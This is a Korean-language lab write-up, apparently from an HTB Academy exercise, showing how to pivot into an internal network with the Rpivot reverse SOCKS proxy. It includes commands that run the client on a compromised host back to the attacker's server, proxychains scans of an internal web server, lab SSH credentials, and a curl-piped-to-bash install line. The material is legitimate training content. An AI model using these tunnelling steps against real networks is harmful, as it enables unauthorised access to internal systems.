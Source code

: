 ```yaml
---
title: "Web Server Pivoting with Rpivot"
date: 2025-09-30
layout: single
author_profile: true
toc: true
toc_label: "Rpivot Pivoting"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, socks, reverse]
header:
  teaser: /assets/network-screenshots/rpivot/rpivot-teaser.png
---
```


**Rpivot**은 Python으로 작성된 **역방향(Reverse) SOCKS 프록시 도구**로, 내부망 호스트가 외부 서버로 연결을 맺고  
외부 서버 측에서 **SOCKS 프록시 포트**를 열어주어 공격자가 프록시를 통해 내부망에 접근할 수 있게 한다.

내부망(`172.16.5.0/23`)에 존재하는 **웹 서버(`172.16.5.135`)**가 있고,  
공격자는 외부 네트워크(HTB Lab)에서 이 웹 서버를 직접 스캔하거나 브라우징하고자 한다.

---

# 네트워크 구조

공격 호스트(`10.10.15.5`) → **External Network(`10.129.110.0`)** → 
피벗 호스트(**Ubuntu**, `10.129.15.50`, `172.16.5.129`) → 
내부 웹 서버(`172.16.5.135`, Port 80)

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/rpivot-network.png)

Rpivot을 이용해 공격자가 외부에서 내부 웹 서버로 접근하는 구조이다.

---

# 설치

먼저 `rpivot` 저장소를 클론한다.

```bash
$ git clone https://github.com/klsecservices/rpivot.git 

Cloning into 'rpivot'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37 (from 1)
Receiving objects: 100% (37/37), 51.20 KiB | 3.66 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

`rpivot`은 **Python 2.7 환경에서 동작**하므로 우선 Python 2.7을 설치해야 한다.

```bash
$ sudo apt-get install python2.7
```

에러가 발생할 경우, 이때는 `pyenv`를 사용하여 별도로 2.7 버전을 설치할 수 있다.

```bash
$ curl https://pyenv.run | bash
$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
$ source ~/.bashrc
$ pyenv install 2.7
$ pyenv shell 2.7
```

--- 

# 실습

## server.py 활성화

공격자 로컬 머신에서 `rpivot` 디렉토리로 이동 후 **SOCKS 프록시 서버(server.py)**를 실행한다.

```bash
$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

- **--proxy-port 9050** : 로컬에서 프록시 트래픽을 받을 포트 (SOCKS5)
- **--server-port 9999** : 클라이언트(피벗 호스트)가 접속할 포트
- **--server-ip 0.0.0.0** : 모든 인터페이스에서 연결 허용

이후, `scp` 명령어를 이용하여 문제에서 제공한 SSH 서버(`ubuntu:HTB_@cademy_stdnt!`) 로 전송을 하였다.

```bash
$ scp -r rpivot ubuntu@10.129.179.177:/home/ubuntu
```

전송 완료 후, 제공된 계정으로 피벗 호스트에 SSH 접속하였다.

```bash
$ ssh ubuntu@10.129.179.177
```

## client.py 활성화

`scp`로 전송한 **rpivot 디렉토리**로 이동한 뒤, `client.py` 스크립트를 실행한다.

```bash
$ python2.7 client.py --server-ip 10.10.15.86 --server-port 9999
```

로컬 호스트에서 **SOCKS 프록시 서버(server.py)** 를 실행해 두었던 터미널을 확인하면, 피벗 호스트가 성공적으로 접속한 로그가 출력된다.

```bash
New connection from host 10.129.179.177, source port 36508
```

이후, 내부망 웹 서버 `172.16.5.135`의 80 번 포트를 `proxychains`를 적용하여 확인하였다.

```bash
$ proxychains nc -vz 172.16.5.135 80

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.5.135:80  ...  OK
172.16.5.135 [172.16.5.135] 80 (http) open : Operation now in progress
```

출력 결과에서 `80 (http) open` 메시지를 통해 해당 포트가 열려 있음을 확인할 수 있다.

## proxychains 웹 사이트 연결 && Flag 획득

로컬 호스트에서 `proxychains`를 적용하여 내부망 웹 사이트에 접속하였다.

```bash
$ proxychains firefox-esr 172.16.5.135:80
```

정상적으로 내부망 웹 페이지 접속에 성공했고, 웹 페이지에 적혀 있는 플래그를 확인하여 획득하였다.

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/flag.png)

이로써 **Rpivot** 사용법에 대한 실습을 마무리하였다.